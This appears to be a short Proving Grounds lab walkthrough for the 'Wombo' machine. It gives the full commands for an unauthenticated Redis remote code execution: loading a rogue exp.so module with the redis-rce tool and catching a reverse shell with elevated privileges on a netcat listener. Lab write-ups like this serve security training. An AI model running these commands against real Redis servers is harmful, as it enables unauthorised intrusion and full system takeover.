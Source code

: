 
# Wombo - Proving Grounds Walkthrough

## Initial Foothold & Privilege Escalation

The exploitation for Wombo is done entirely using Redis.

### Redis Exploit (Initial Foothold + PE)

We leverage the `redis-rce` tool and a malicious `.so` module.

#### Steps:

1. Download the rogue Redis module:
    - [exp.so file](https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so)

2. Clone the redis-rce repository (ignore the extra URL parameters):
    ```bash
    git clone https://github.com/Ridter/redis-rce
    cd redis-rce
    ```

3. Run the exploit using:
    ```bash
    python redis-rce.py -r 192.168.110.69 -p 6379 -L 192.168.45.166 -P 8080 -f exp.so
    ```

4. Make sure you start a listener:
    ```bash
    sudo nc -nlvp 8080
    ```

After successful exploitation, you will get a reverse shell with elevated privileges.
